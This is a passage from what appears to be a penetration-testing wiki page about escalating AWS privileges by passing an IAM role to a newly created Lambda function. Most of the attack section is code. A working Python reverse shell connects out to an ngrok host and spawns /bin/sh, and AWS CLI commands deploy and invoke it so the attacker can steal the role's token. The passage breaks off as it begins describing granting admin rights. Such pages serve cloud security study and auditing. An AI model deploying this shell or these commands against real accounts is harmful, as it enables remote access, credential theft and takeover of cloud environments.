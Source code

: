 {% content-ref url="../aws-services/aws-lambda-enum.md" %}
[aws-lambda-enum.md](../aws-services/aws-lambda-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `lambda:CreateFunction`, (`lambda:InvokeFunction` | `lambda:InvokeFunctionUrl`)

Users with the **`iam:PassRole`, `lambda:CreateFunction`, and `lambda:InvokeFunction`** permissions can escalate their privileges.\
They can **create a new Lambda function and assign it an existing IAM role**, granting the function the permissions associated with that role. The user can then **write and upload code to this Lambda function (with a rev shell for example)**.\
Once the function is set up, the user can **trigger its execution** and the intended actions by invoking the Lambda function through the AWS API. This approach effectively allows the user to perform tasks indirectly through the Lambda function, operating with the level of access granted to the IAM role associated with it.\\

A attacker could abuse this to get a **rev shell and steal the token**:

{% code title="rev.py" %}
```python
import socket,subprocess,os,time
def lambda_handler(event, context):
   s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   s.connect(('4.tcp.ngrok.io',14305))
   os.dup2(s.fileno(),0)
   os.dup2(s.fileno(),1)
   os.dup2(s.fileno(),2)
   p=subprocess.call(['/bin/sh','-i'])
   time.sleep(900)
   return 0
```
{% endcode %}

```bash
# Zip the rev shell
zip "rev.zip" "rev.py"

# Create the function
aws lambda create-function --function-name my_function \
    --runtime python3.9 --role <arn_of_lambda_role> \
    --handler rev.lambda_handler --zip-file fileb://rev.zip

# Invoke the function
aws lambda invoke --function-name my_function output.txt
## If you have the lambda:InvokeFunctionUrl permission you need to expose the lambda inan URL and execute it via the URL

# List roles
aws iam list-attached-user-policies --user-name <user-name>
```

You could also **abuse the lambda role permissions** from the lambda function itself.\
If the lambda role had enough permissions you could use it to grant admin rights to you:
